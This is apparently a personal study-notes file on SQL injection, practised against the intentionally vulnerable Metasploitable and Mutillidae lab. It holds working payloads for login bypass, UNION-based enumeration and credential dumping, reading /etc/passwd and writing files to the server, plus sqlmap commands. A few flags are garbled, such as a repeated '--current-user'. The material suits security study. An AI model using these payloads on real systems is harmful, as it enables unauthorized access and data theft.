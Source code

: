# SQL injection
-   to prevent SQL injection, just use parameterized statements, separate data from SQL code
-   everything was tested with Metasploitable Linux
-   connect to the Metasploitable Linux SQL Database from Kali Linux (no hacking, only connecting): `mysql -u root -h ip.address.of.MetasploitableLinux`.
-   to discover SQL injection vulnerability: 
    -   try to break page / test text boxes / change URL parameters

## Test text boxes
-   example of bypassing login: 
    -   password field: `xxx' or 1=1 #`
    -   `xxx`: is something random, doesn't matter
    -   `'`: is used to finish the current SQL statement for password, example: `select * from account where user='$USER' and password='$PASSWORD'`
    -   `or 1=1`: inserted true statement
    -   `#`: to finish the SQL statement right after the true statement and everything after is comment (otherwise there would be an error for `'` at the end)  

## Change URL parameters
-   URL parameters on the form (`url?something=something`)
-   example of injection to URL `url/index.php?page=user-infp.php?username=admin&password=123456&...`
    -   change similarly to text box: `url/index.php?page=user-infp.php?username=admin' or 1=1#&password=123456&...` and paste it to the browser url. Sometimes there might be a problem with using `#`, then use URL encoding (https://www.urlencoder.org/): `%23`
    -   `1=1` can be changed for anything like:
        1)  determine how many columns are being selected from the table in current SQL statement by trying maximum of the latest order by column example: `order by 5`. In example on Metasploitable Linux website mutillidae/index.php?page=login.php was found that 5 are selected.
        2)  now use union select with as many columns as discovered in previous SQL statement: `union select 1,database(),user(),version(),5`, this will show current db, user to access the db and version of the db.
        3)  get all the tables stored inside the db by selecting from information schema (this is default table in SQL which includes information about all tables in SQL): `union select 1,table_name,null,null,5 from information_schema.tables`. If many tables are shown add where for the db discovered in 2nd point: `where table_schema = 'db_name'`
        4)   get column names from specific table (accounts): `union select 1,column_name,null,null,5 from information_schema.columns where table_name = 'accounts'`
        5)  get all values from specific table (accounts): `union select 1,username,password,is_admin,5 from accounts`

        +  or just read files from server `union select null, load_file('/etc/passwd'),null,null,null`
        +  also file upload is possible `union select null, 'example example',null,null,null into outfile /some/path/on/server/example.txt`

## Discovering SQL injection with SQLmap
-   huge tool which helps to find and exploit SQL injections. Small example on manual attack showed above:
    -   tool automatically looks through all parameters and finds anything that can be injectable:
        ```bash
        sqlmap -u "http://192.168.72.130/mutillidae/index.php?page=login.php?page=user-info.php&username=admin&password=123456&user-info-php-submit-button=View+Account+Details"
        ```
    -   get all databases:
        ```bash
        sqlmap -u "http://192.168.72.130/mutillidae/index.php?page=login.php?page=user-info.php&username=admin&password=123456&user-info-php-submit-button=View+Account+Details --dbs"
        ```
    -   to get current user, just change the `--dbs` to `--current-user`. Same for current db use `--current-user`. 
    -   to get all the tables use params use `--tables -D db_name`, to get columns use `--columns -T accounts -D db_name`
    -   to dump all the data use params `-T accounts -D db_name --dump`